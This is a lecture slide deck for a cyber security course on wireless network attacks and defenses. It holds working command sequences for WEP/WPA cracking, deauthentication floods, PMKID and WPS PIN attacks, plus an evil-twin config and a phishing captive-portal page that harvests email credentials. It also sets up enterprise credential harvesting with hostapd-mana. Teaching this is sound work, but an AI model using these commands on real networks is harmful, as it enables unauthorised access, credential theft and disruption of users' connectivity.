

# Wireless Network Security Testing
## Unit IV: Ethical Hacking
### Lecture 30: Securing Wireless Communications and Infrastructure

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Semester V | Diploma ICT | Author: Milav Dabgar
</div>

---
layout: default
---

# Wireless Security Fundamentals

<div class="grid grid-cols-2 gap-8">

<div>

## 📡 Wireless Technology Overview

**Wireless Networks** use radio frequencies to transmit data, creating unique security challenges due to their broadcast nature and accessibility.

### 📊 Wireless Security Statistics
- **68% of organizations** have unsecured wireless access points
- **Average detection time**: 6 months for rogue access points
- **WPA2 vulnerabilities**: 41% of networks still vulnerable
- **Enterprise attacks**: 73% involve wireless components
- **IoT devices**: 84% use weak wireless security
- **Range exploitation**: Attacks possible from 1+ miles away

### 🔄 Wireless Attack Categories


</div>

<div>

## 🛡️ Wireless Security Protocols

### 🔐 Security Standards Evolution
```yaml
WEP (Wired Equivalent Privacy):
  Status: Deprecated (2004)
  Key Size: 64-bit/128-bit
  Vulnerabilities: RC4 stream cipher flaws
  Break Time: < 5 minutes

WPA (Wi-Fi Protected Access):
  Status: Legacy
  Key Size: 128-bit
  Improvements: TKIP, MIC
  Vulnerabilities: TKIP attacks

WPA2 (802.11i):
  Status: Current standard
  Encryption: AES-CCMP
  Key Size: 128-bit
  Vulnerabilities: KRACK, weak PSK

WPA3 (2018):
  Status: Latest standard
  Encryption: AES-256, ChaCha20
  Features: SAE, Enhanced Open
  Protection: Forward secrecy
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 30 | Author: Milav Dabgar
</div>

---
layout: default
---

# Wireless Reconnaissance and Discovery

<div class="grid grid-cols-2 gap-8">

<div>

## 🔍 Passive Network Discovery

### 📡 Wireless Interface Preparation
```bash
# Check wireless interfaces
iwconfig

# Set interface to monitor mode
sudo airmon-ng start wlan0

# Verify monitor mode
iwconfig wlan0mon

# Set specific channel
sudo iwconfig wlan0mon channel 6
```

### 🕵️ Network Enumeration
```bash
# Discover all wireless networks
sudo airodump-ng wlan0mon

# Target specific network
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF wlan0mon

# Save capture to file
sudo airodump-ng -w capture --output-format pcap wlan0mon
```

### 📊 Information Gathering
```yaml
Collected Data:
  Network Information:
    - SSID (network name)
    - BSSID (access point MAC)
    - Channel and frequency
    - Signal strength (RSSI)
    - Encryption type
    - Cipher and authentication
  
  Client Information:
    - Connected stations
    - MAC addresses
    - Activity levels
    - Probe requests
```

</div>

<div>

## 🎯 Active Network Scanning

### 📡 Wardriving and Site Survey
```python
# Wardriving automation script
import subprocess
import time
import json
from datetime import datetime

class WirelessScanner:
    def __init__(self, interface):
        self.interface = interface
        self.networks = {}
        
    def scan_networks(self, duration=60):
        """Perform wireless network scan"""
        print(f"[*] Starting {duration}s wireless scan...")
        
        # Start airodump-ng scan
        cmd = f"timeout {duration} airodump-ng {self.interface} --output-format csv -w scan"
        subprocess.run(cmd.split(), capture_output=True)
        
        # Parse results
        self.parse_scan_results("scan-01.csv")
        
    def parse_scan_results(self, filename):
        """Parse airodump-ng CSV output"""
        try:
            with open(filename, 'r') as f:
                lines = f.readlines()
            
            # Find AP section
            ap_start = next(i for i, line in enumerate(lines) if 'BSSID' in line)
            
            for line in lines[ap_start+1:]:
                if line.strip() == '':
                    break
                    
                fields = line.split(',')
                if len(fields) > 13:
                    network = {
                        'bssid': fields[0].strip(),
                        'power': fields[8].strip(),
                        'beacons': fields[9].strip(),
                        'channel': fields[3].strip(),
                        'privacy': fields[5].strip(),
                        'essid': fields[13].strip()
                    }
                    self.networks[network['bssid']] = network
                    
        except Exception as e:
            print(f"[!] Error parsing results: {e}")
    
    def generate_report(self):
        """Generate wireless survey report"""
        report = f"""
WIRELESS SECURITY ASSESSMENT REPORT
==================================

Scan Date: {datetime.now().strftime('%Y-%m-%d %H:%M:%S')}
Networks Discovered: {len(self.networks)}

NETWORK INVENTORY:
        """
        
        for bssid, network in self.networks.items():
            report += f"""
BSSID: {bssid}
ESSID: {network['essid']}
Channel: {network['channel']}
Security: {network['privacy']}
Signal: {network['power']} dBm
        """
        
        return report
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 30 | Author: Milav Dabgar
</div>

---
layout: default
---

# WEP and WPA/WPA2 Attacks

<div class="grid grid-cols-2 gap-8">

<div>

## 🔓 WEP Cracking Attacks

### ⚡ Aircrack-ng WEP Attack
```bash
# Start packet capture
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w wep_crack wlan0mon

# Generate traffic (in another terminal)
sudo aireplay-ng -3 -b AA:BB:CC:DD:EE:FF -h CC:DD:EE:FF:00:11 wlan0mon

# Crack WEP key when sufficient IVs collected
sudo aircrack-ng -b AA:BB:CC:DD:EE:FF wep_crack-01.cap
```

### 🎯 WEP Attack Types
```yaml
ARP Request Replay:
  - Capture ARP packet
  - Replay to generate traffic
  - Collect unique IVs
  - Crack with statistical analysis

Fake Authentication:
  - Associate with access point
  - Generate authenticated packets
  - Bypass MAC filtering
  - Enable injection attacks

Fragmentation Attack:
  - Extract PRGA from fragments
  - Generate arbitrary packets
  - Works with limited traffic
  - Bypasses WEP filtering

Korek Chopchop:
  - Decrypt packets byte-by-byte
  - No key recovery needed
  - Generate new packets
  - Works against strict filtering
```

</div>

<div>

## 🛡️ WPA/WPA2 Attack Methods

### 🤝 4-Way Handshake Capture
```bash
# Capture handshake
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w handshake wlan0mon

# Force client reconnection
sudo aireplay-ng -0 2 -a AA:BB:CC:DD:EE:FF -c CC:DD:EE:FF:00:11 wlan0mon

# Verify handshake capture
sudo aircrack-ng handshake-01.cap
```

### 💥 Dictionary and Brute Force
```bash
# Dictionary attack with aircrack-ng
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt handshake-01.cap

# HashCat GPU acceleration
hashcat -m 2500 handshake.hccapx /usr/share/wordlists/rockyou.txt

# John the Ripper
john --wordlist=/usr/share/wordlists/rockyou.txt handshake.john

# Mask attack (8-digit numeric)
hashcat -m 2500 handshake.hccapx -a 3 ?d?d?d?d?d?d?d?d
```

### 🔑 PMKID Attack (WPA2)
```bash
# Capture PMKID
sudo hcxdumptool -i wlan0mon -o pmkid.pcapng --enable_status=1

# Convert to hashcat format
hcxpcapngtool -o pmkid.hash -k pmkid.hccapx pmkid.pcapng

# Crack PMKID
hashcat -m 16800 pmkid.hash /usr/share/wordlists/rockyou.txt
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 30 | Author: Milav Dabgar
</div>

---
layout: default
---

# Advanced Wireless Attacks

<div class="grid grid-cols-2 gap-8">

<div>

## 👹 Evil Twin and Rogue Access Points

### 🎭 Evil Twin Setup
```bash
# Create fake access point
sudo hostapd /etc/hostapd/hostapd.conf

# hostapd.conf configuration
interface=wlan1
driver=nl80211
ssid=FreeWiFi
hw_mode=g
channel=6
macaddr_acl=0
auth_algs=1
ignore_broadcast_ssid=0
```

### 🌐 Captive Portal Attack
```html
<!-- Captive portal login page -->
<!DOCTYPE html>
<html>
<head>
    <title>Free WiFi - Login Required</title>
    <style>
        body { font-family: Arial; text-align: center; padding: 50px; }
        .login-form { max-width: 400px; margin: 0 auto; }
        input { width: 100%; padding: 10px; margin: 5px 0; }
        button { background: #4CAF50; color: white; padding: 10px 20px; }
    </style>
</head>
<body>
    <div class="login-form">
        <h2>Welcome to Free WiFi</h2>
        <p>Please login with your email credentials to access internet</p>
        <form action="harvest.php" method="POST">
            <input type="email" name="email" placeholder="Email Address" required>
            <input type="password" name="password" placeholder="Password" required>
            <button type="submit">Connect to Internet</button>
        </form>
    </div>
</body>
</html>
```

</div>

<div>

## 📱 Client-Side Attacks

### 🔄 Deauthentication Attacks
```bash
# Deauth specific client
sudo aireplay-ng -0 10 -a AA:BB:CC:DD:EE:FF -c CC:DD:EE:FF:00:11 wlan0mon

# Deauth all clients
sudo aireplay-ng -0 0 -a AA:BB:CC:DD:EE:FF wlan0mon

# Continuous deauth attack
while true; do
    sudo aireplay-ng -0 1 -a AA:BB:CC:DD:EE:FF wlan0mon
    sleep 1
done
```

### 🎣 Karma and MANA Attacks
```yaml
Karma Attack:
  - Respond to all probe requests
  - Impersonate any requested network
  - Automatic client association
  - Credential harvesting opportunities

MANA Framework:
  - Advanced rogue AP toolkit
  - Automatic AP impersonation
  - Client device fingerprinting
  - Credential collection and relay
  - EAP attack capabilities

WiFi Pineapple:
  - Hardware-based rogue AP
  - Automated attack deployment
  - Web-based management interface
  - Modular attack framework
  - Client device tracking
```

### 🛰️ Wireless Man-in-the-Middle
```bash
# Setup bridge interface
sudo brctl addbr br0
sudo brctl addif br0 eth0
sudo brctl addif br0 wlan1

# Enable IP forwarding
sudo echo 1 > /proc/sys/net/ipv4/ip_forward

# Setup iptables for traffic interception
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
sudo iptables -A FORWARD -i br0 -o eth0 -j ACCEPT
sudo iptables -A FORWARD -i eth0 -o br0 -j ACCEPT
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 30 | Author: Milav Dabgar
</div>

---
layout: default
---

# WPS and Enterprise Attacks

<div class="grid grid-cols-2 gap-8">

<div>

## 🔢 WiFi Protected Setup (WPS) Attacks

### 🎯 Reaver WPS PIN Attack
```bash
# Scan for WPS-enabled networks
sudo wash -i wlan0mon

# Attack WPS with Reaver
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -vv

# Reaver with additional options
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -vv -L -N -d 15 -T .5 -c 6
```

### ⚡ Pixie Dust Attack
```bash
# Bully Pixie Dust attack
sudo bully -d -v 3 AA:BB:CC:DD:EE:FF -c 6 wlan0mon

# Reaver Pixie Dust
sudo reaver -i wlan0mon -c 6 -b AA:BB:CC:DD:EE:FF -K 1 -N
```

### 🔍 WPS Attack Types
```yaml
Online PIN Attack:
  - 8-digit PIN brute force
  - 10^4 + 10^3 maximum attempts
  - Rate limiting vulnerabilities
  - Lockout mechanism bypass

Offline PIN Attack (Pixie Dust):
  - Weak random number generation
  - M1/M2 message analysis
  - PIN calculation from exchanges
  - No rate limiting required

WPS Information Disclosure:
  - WPS information elements
  - Device name and model
  - Configuration methods
  - PIN lock status
```

</div>

<div>

## 🏢 Enterprise Wireless Attacks

### 🔐 EAP Attack Methods
```yaml
EAP-MD5 Attack:
  - Dictionary/brute force
  - No mutual authentication
  - Offline password cracking
  - Asleap tool usage

PEAP Attack:
  - Certificate validation bypass
  - Inner authentication targeting
  - Credential harvesting
  - Hostapd-mana framework

EAP-TTLS Attack:
  - Tunnel manipulation
  - Inner protocol attacks
  - Certificate spoofing
  - FreeRadius-WPE usage
```

### 🎯 Enterprise Attack Tools
```bash
# hostapd-mana configuration
interface=wlan1
driver=nl80211
ssid=Corporate_WiFi
hw_mode=g
channel=6
ieee8021x=1
eap_server=1
eap_user_file=/etc/hostapd-mana/mana.eap_user
ca_cert=/etc/hostapd-mana/ca.pem
server_cert=/etc/hostapd-mana/server.pem
private_key=/etc/hostapd-mana/server.key
mana_wpe=1

# EAP credential harvesting
sudo hostapd-mana /etc/hostapd-mana/mana.conf
```

### 📡 Radius Server Attacks
```bash
# FreeRadius-WPE setup
sudo apt install freeradius-wpe

# Configure WPE
sudo vi /etc/freeradius/sites-enabled/default

# Start WPE server
sudo freeradius-wpe -X
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 30 | Author: Milav Dabgar
</div>

---
layout: default
---

# Bluetooth and IoT Wireless Security

<div class="grid grid-cols-2 gap-8">

<div>

## 📱 Bluetooth Security Testing

### 🔍 Bluetooth Discovery
```bash
# Basic Bluetooth scanning
hciconfig hci0 up
hcitool scan

# Advanced discovery
hcitool inq --length=8 --num-rsp=255

# Service discovery
sdptool browse 00:11:22:33:44:55

# BlueZ stack information
bluetoothctl
[bluetooth]# scan on
[bluetooth]# devices
```

### 🛠️ Bluetooth Attack Tools
```yaml
BlueZ Utilities:
  - hcitool (device discovery)
  - l2ping (connectivity test)
  - rfcomm (serial connections)
  - sdptool (service discovery)

Specialized Tools:
  - Btlejuice (BLE MitM)
  - Gattacker (BLE attacks)
  - BlueHydra (device tracking)
  - Ubertooth (packet sniffing)

Attack Categories:
  - Bluejacking (message spam)
  - Bluesnarfing (data theft)
  - Bluebugging (device control)
  - Car Whisperer (hands-free attacks)
```

</div>

<div>

## 🌐 IoT Wireless Assessment

### 📡 IoT Protocol Analysis
```yaml
Common IoT Protocols:
  ZigBee (802.15.4):
    - Mesh networking
    - Low power consumption
    - AES-128 encryption
    - Key management issues

  Z-Wave:
    - Proprietary protocol
    - Mesh networking
    - AES encryption (newer)
    - Replay attack vulnerabilities

  LoRaWAN:
    - Long-range communication
    - Low power wide area
    - AES-128 encryption
    - Join procedure attacks

  Thread:
    - IPv6-based mesh
    - Enterprise-grade security
    - Certificate-based auth
    - Still emerging vulnerabilities
```

### 🔧 IoT Testing Framework
```python
# IoT device security scanner
import socket
import requests
from scapy.all import *

class IoTSecurityScanner:
    def __init__(self, target_range):
        self.target_range = target_range
        self.discovered_devices = []
    
    def discover_iot_devices(self):
        """Discover IoT devices on network"""
        print("[*] Scanning for IoT devices...")
        
        # Common IoT ports
        iot_ports = [80, 443, 8080, 8081, 554, 5000, 8888, 9000]
        
        for ip in self.generate_ip_range():
            for port in iot_ports:
                if self.port_scan(ip, port):
                    device_info = self.identify_device(ip, port)
                    if device_info:
                        self.discovered_devices.append(device_info)
    
    def identify_device(self, ip, port):
        """Identify IoT device type"""
        try:
            response = requests.get(f"http://{ip}:{port}", timeout=5)
            
            # Device identification patterns
            patterns = {
                'camera': ['axis', 'hikvision', 'dahua', 'foscam'],
                'router': ['admin', 'router', 'gateway', 'modem'],
                'printer': ['hp', 'canon', 'epson', 'brother'],
                'nas': ['synology', 'qnap', 'drobo', 'netgear']
            }
            
            content_lower = response.text.lower()
            
            for device_type, keywords in patterns.items():
                if any(keyword in content_lower for keyword in keywords):
                    return {
                        'ip': ip,
                        'port': port,
                        'type': device_type,
                        'headers': dict(response.headers)
                    }
                    
        except Exception:
            pass
        
        return None
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 30 | Author: Milav Dabgar
</div>

---
layout: default
---

# Wireless Defense and Countermeasures

<div class="grid grid-cols-2 gap-8">

<div>

## 🛡️ Network Hardening

### 🔒 Access Point Security
```yaml
Security Configuration:
  Strong Encryption:
    - WPA3-Personal (SAE)
    - WPA3-Enterprise (802.1X)
    - AES-256 encryption
    - Strong pre-shared keys

  Access Controls:
    - MAC address filtering
    - Network access control (NAC)
    - VLAN segmentation
    - Guest network isolation

  Administrative Security:
    - Default credential changes
    - Firmware updates
    - HTTPS management only
    - Strong admin passwords
    - Regular security audits
```

### 📡 Advanced Security Features
```yaml
Enterprise Features:
  802.1X Authentication:
    - EAP-TLS certificate auth
    - PEAP with strong passwords
    - RADIUS server integration
    - Certificate validation

  Network Monitoring:
    - Wireless IDS/IPS
    - Rogue AP detection
    - Client device tracking
    - Anomaly detection
    - Traffic analysis

  Physical Security:
    - AP placement optimization
    - RF shielding
    - Power level adjustment
    - Directional antennas
```

</div>

<div>

## 👥 User Education and Policies

### 📚 Security Awareness
```yaml
User Training Topics:
  Threat Recognition:
    - Evil twin identification
    - Suspicious network names
    - Certificate warnings
    - Unusual connection behavior

  Safe Connection Practices:
    - Corporate network priority
    - VPN usage requirements
    - Public WiFi precautions
    - Software update importance

  Incident Reporting:
    - Suspicious network detection
    - Unauthorized access attempts
    - Device compromise indicators
    - Policy violation reporting
```

### 📋 Security Policies
```yaml
Wireless Security Policy:
  Device Requirements:
    - Corporate device standards
    - Security software installation
    - Automatic update enabling
    - Endpoint protection deployment

  Network Usage:
    - Approved network lists
    - Public WiFi restrictions
    - Personal hotspot policies
    - Guest access procedures

  Compliance Monitoring:
    - Regular security assessments
    - Policy violation tracking
    - Training effectiveness metrics
    - Incident response procedures
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 30 | Author: Milav Dabgar
</div>

---
layout: default
---

# Practical Exercise: Wireless Security Assessment

<div class="exercise-container">

## 🎯 Comprehensive Wireless Security Testing (35 minutes)

### Mission: Corporate Wireless Assessment

Conduct a thorough wireless security assessment for **"TechCorp Industries"** to identify vulnerabilities and improve their wireless security posture.

### 🏢 Corporate Environment
**Wireless Infrastructure:**
- **Main office building** (4 floors, 200 employees)
- **Multiple access points** (Cisco enterprise-grade)
- **Guest network** available for visitors
- **BYOD policy** allowing personal devices
- **IoT devices** (cameras, printers, sensors)
- **Bluetooth-enabled** equipment throughout facility

### Phase 1: Assessment Planning and Reconnaissance (15 minutes)

**Team Task: Comprehensive Assessment Strategy**

1. **Passive Reconnaissance Phase**
   - Design wireless network discovery methodology
   - Plan signal strength and coverage mapping
   - Create client device enumeration strategy
   - Develop traffic analysis procedures

2. **Security Protocol Analysis**
   - Identify encryption standards in use
   - Plan authentication mechanism testing
   - Design certificate validation assessment
   - Create key management evaluation process

### Phase 2: Active Security Testing (12 minutes)

**Attack Vector Assessment:**
1. **WPA/WPA2 Security Testing**
   - Plan handshake capture methodology
   - Design password complexity assessment
   - Create PMKID attack testing procedure
   - Develop enterprise authentication testing

2. **Infrastructure Attack Simulation**
   - Design evil twin access point deployment
   - Plan rogue AP detection testing
   - Create client device attack scenarios
   - Develop man-in-the-middle testing procedures

### Phase 3: Advanced Testing and Reporting (8 minutes)

**Advanced Assessment Areas:**
1. **IoT and Bluetooth Security**
   - Design IoT device discovery and testing
   - Plan Bluetooth security assessment
   - Create wireless protocol analysis procedures
   - Develop device management security review

2. **Defense Evaluation and Reporting**
   - Assess current security control effectiveness
   - Identify gaps in wireless security policies
   - Create improvement recommendations framework
   - Design staff training and awareness program

**Deliverables:**
- Complete wireless security assessment methodology
- Technical testing procedures with specific tools and commands
- Risk assessment framework with business impact analysis
- Comprehensive remediation roadmap with prioritized recommendations

</div>

<style>
.exercise-container {
  @apply bg-cyan-50 border-2 border-cyan-300 rounded-lg p-6;
}
</style>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 30 | Author: Milav Dabgar
</div>

---
layout: center
class: text-center
---

# Questions & Discussion

## 🤔 Technical Analysis Points:
- How do you balance wireless convenience with security requirements?
- What are the ethical considerations in wireless security testing?
- How can organizations stay current with evolving wireless threats?

### 💡 Exercise Review
Present your wireless security assessment strategies and discuss testing methodologies

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 30 | Author: Milav Dabgar
</div>

---
layout: center
class: text-center
---

# Thank You!

## Next Lecture: Web Application Security Testing
### Securing the Digital Frontend

<div class="pt-8 text-gray-500">
  <p>Cyber Security (4353204) - Lecture 30 Complete</p>
  <p>Wireless security: Protecting the invisible connections! 📡🔒</p>
</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 30 | Author: Milav Dabgar
</div>